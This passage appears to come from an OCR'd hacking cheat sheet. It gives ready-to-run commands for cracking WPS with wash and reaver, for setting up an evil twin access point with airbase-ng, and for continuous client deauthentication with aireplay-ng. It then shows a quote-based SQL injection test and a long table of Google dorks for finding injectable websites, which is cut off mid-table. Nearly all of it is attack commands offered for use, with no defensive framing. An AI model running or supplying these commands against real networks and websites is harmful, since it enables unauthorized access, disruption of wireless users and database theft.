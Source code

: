 1. Check if WPS is enabled

Code:
sudo wash -i <MACaddressCLIENT>


2. Attack

Code:
sudo reaver -i <interface> -b <MACaddressCLIENT> -vv -c <channel>


Evil twin attack

1. Setup twin

Code:
airbase-ng -a <bssid> --essid <essid> -c <channel> <interface>


2. Deauth current clients


Code:
aireplay-ng --deauth 0 -a <bssid> <interface>



SQL Injection



Check if website is vulnerable

Example site:
http://www.sqldummy.com/cgi-bin/item.cqi?item_id=15

Now add a single quotation mark to the end:
http://www.sqldummy.com/cgi-bin/item.cqi?item_id=15'

If the page returns an SQL error, the page is vulnerable to injection.

Google dorks

Code:
|-----------------------------------------------------------------------------------------------------------|
| inurl:item_id=                      | inurl:review.php?id=            | inurl:hosting_info.php?id=        |
| inurl:newsid=                       | inurl:iniziativa.php?in=        | inurl:gallery.php?id=             |
| inurl:trainers.php?id=              | inurl:curriculum.php?id=        | inurl:rub.php?idr=                |
| inurl:news-full.php?id=             | inurl:labels.php?id=            | inurl:view_faq.php?id=            |
| inurl:news_display.php?getid=       | inurl:story.php?id=             | inurl:artikelinfo.php?id=         |
| inurl:index2.php?option=            | inurl:look.php?ID=              | inurl:detail.php?ID=              |
| inurl:readnews.php?id=              | inurl:newsone.php?id=           | inurl:index.php?=                 |
| inurl:top10.php?cat=                | inurl:aboutbook.php?id=         | inurl:profile_view.php?id=        |
| inurl:newsone.php?id=               | inurl:material.php?id=          | inurl:category.php?id=            |
| inurl:event.php?id=                 | inurl:opinions.php?id=          | inurl:publications.php?id=        |
| inurl:product-item.php?id=          | inurl:announce.php?id=          | inurl:fellows.php?id=             |
| inurl:sql.php?id=                   | inurl:rub.php?idr=              | inurl:downloads_info.php?id=      |
| inurl:index.php?catid=              | inurl:galeri_info.php?l=        | inurl:prod_info.php?id=           |
| inurl:news.php?catid=               | inurl:tekst.php?idt=            | inurl:shop.php?do=part&id=        |
| inurl:index.php?id=                 | inurl:newscat.php?id=           | inurl:productinfo.php?id=         |
| inurl:news.php?id=                  | inurl:newsticker_info.php?idn=  | inurl:collectionitem.php?id=      |
| inurl:index.php?id=                 | inurl:rubrika.php?idr=          | inurl:band_info.php?id=           |